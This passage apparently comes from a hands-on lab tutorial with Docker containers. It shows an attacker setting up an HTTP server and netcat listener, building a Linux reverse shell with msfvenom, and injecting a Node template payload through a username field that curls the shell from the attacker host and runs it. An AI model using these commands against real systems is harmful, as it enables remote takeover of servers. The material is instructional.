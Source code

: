 \documentclass[a4paper,11pt,singlespacing]{article}
\newenvironment{Shaded}{}{}
\newcommand{\AttributeTok}[1]{\textcolor[rgb]{0.49,0.56,0.16}{#1}}
\newcommand{\BuiltInTok}[1]{\textcolor[rgb]{0.00,0.50,0.00}{#1}}
\newcommand{\DataTypeTok}[1]{\textcolor[rgb]{0.56,0.13,0.00}{#1}}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.02,0.16,0.49}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.40,0.40,0.40}{#1}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.25,0.44,0.63}{#1}}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{itemize}
\tightlist
\item
  Python http server command: \texttt{python3\ -m\ http.server\ 80}
\item
  netcat command: \texttt{nc\ -lnvp\ 4444}
\end{itemize}

Now, we will open a third terminal in Eve docker container and we will
craft a payload called a Reverse Shell. Because we have firewalls that
usually allow output traffic and filter input traffic, we try to put a
shell that will initiate the connection \textbf{from} the victim
\textbf{to} the attacker in order to bypass the firewall rules. In our
case, we will craft the Reverse shell using \texttt{msfvenom} like so:

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{msfvenom {-}p linux/x86/shell\_reverse\_tcp LHOST=192.168.4.3 LPORT=4444 {-}f elf {-}o shell}
\end{Highlighting}
\end{Shaded}

Here is a quick explanation of each parameters:

\begin{itemize}
\tightlist
\item
  \texttt{-p\ linux/x86/shell\_reverse\_tcp} --\textgreater{} specify
  the payload we want, in this case a Reverse shell using TCP and
  running on linux OS (we know the os from scenario 1!)
\item
  \texttt{LHOST=192.168.4.3} --\textgreater{} this is the IP that the
  reverse shell will connect
\item
  \texttt{LPORT=4444} --\textgreater{} this is the port the reverse
  shell will use to connect ( that is why the netcat command is
  listening to port 4444)
\item
  \texttt{-f\ elf} --\textgreater{} that is the format of the payload,
  elf format being the executable format on linux
\item
  \texttt{-o\ shell} --\textgreater{} simply specify the name of the
  payload we want
\end{itemize}

Once the payload is created in the directory \texttt{/root}, we can set
the following username :

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{\#\{}\BuiltInTok{global}\OperatorTok{.}\AttributeTok{process}\OperatorTok{.}\AttributeTok{mainModule}\OperatorTok{.}\FunctionTok{require}\NormalTok{(}\StringTok{\textquotesingle{}child\_process\textquotesingle{}}\NormalTok{)}\OperatorTok{.}\FunctionTok{exec}\NormalTok{(}\StringTok{\textquotesingle{}curl }
\DataTypeTok{http}\OperatorTok{:}\NormalTok{//192.168.4.3/shell {-}o shell \&\& chmod +x shell \&\& ./shell\textquotesingle{})\}}
\end{Highlighting}
\end{Shaded}
\end{document}
